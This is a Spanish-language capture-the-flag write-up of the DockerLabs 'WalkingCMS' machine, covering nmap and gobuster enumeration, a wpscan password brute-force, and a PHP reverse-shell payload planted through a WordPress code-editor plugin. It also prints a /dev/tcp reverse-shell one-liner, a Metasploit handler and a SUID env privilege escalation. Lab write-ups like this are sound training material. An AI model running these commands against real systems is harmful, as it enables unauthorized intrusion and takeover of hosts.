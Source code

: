 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - DockerLabs
  - Easy
  - Linux
  - HTTP
  - FuzzingWeb
  - WordPress
  - CMS
  - ReverseShell
  - PrivilegeEscalation
  - SUID
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#WordPress|WordPress]]
	- [[#Explotación#Reverse Shell|Reverse Shell]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#SUID|SUID]]

---
# Resolviendo la máquina WalkingCMS

>En esta publicación, comparto cómo resolví la máquina **WalkingCMS** de [DockerLabs](https://dockerlabs.es/).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 172.17.0.2`

![[Pasted image 20250725190446.png]]

*TTL=64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts`

![[Pasted image 20250725190547.png]]

`nmap -p80 -sCV 172.17.0.2 -oN targeted`

![[Pasted image 20250725190601.png]]
### HTTP

`http://172.17.0.2/`

![[Pasted image 20250725190921.png]]
#### Fuzzing Web

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 64`

![[Pasted image 20250725191016.png]]

`http://172.17.0.2/wordpress/`

![[Pasted image 20250725191049.png]]

---
## Explotación
### WordPress

`wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp`

![[Pasted image 20250725191307.png]]
![[Pasted image 20250725191331.png]]

`wpscan --url http://172.17.0.2/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames mario`

![[Pasted image 20250725191538.png]]
![[Pasted image 20250725191608.png]]

Con las credenciales obtenidas (`mario` / `love`), se accede al panel de **WordPress**.

![[Pasted image 20250725191804.png]]

Se observa que tiene instalado un *plugin* llamado *Code Editor*, donde se puede editar código.

Se crea un nuevo documento llamado: `pwned.php`.

![[Pasted image 20250725192606.png]]

Se crea un *payload malicioso*.

`msfvenom -p php/reverse_php LHOST=192.168.1.127 LPORT=1234 -f raw > pwned.php`

Se visualiza el archivo creado anteriormente.

`cat pwned.php`.

Se copia el archivo y se añade al documento creado anteriormente.

![[Pasted image 20250725192749.png]]
### Reverse Shell

Se inicia una escucha en el puerto 1234  para recibir la *reverse shell*.

`nc -nlvp 1234`

`sh -i >& /dev/tcp/192.168.1.127/1235 0>&1`

![[Pasted image 20250725193325.png]]

Se inicia nuevamente una escucha en el puerto 1235 para recibir la *reverse shell* y entablar una conexión estable.

`vim handler.rc`

```
use multi/handler
set PAYLOAD php/reverse_php
set LHOST 192.168.1.127
set LPORT 1235
run
```

`msfconsole -r handler.rc`

![[Pasted image 20250725193345.png]]

`background`

`sessions -u 1`

`sessions 2`
### Escalada de Privilegios
#### SUID

Se realiza una búsqueda de permisos **SUID**.

`find / -perm -4000 2>/dev/null`

![[Pasted image 20250725193757.png]]

Se observa un binario con permisos **SUID** sospechoso: `/usr/bin/env`. Se realiza una búsqueda por [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid).

![[Pasted image 20250725193943.png]]

`/usr/bin/env /bin/sh -p`

![[Pasted image 20250725194006.png]]

---
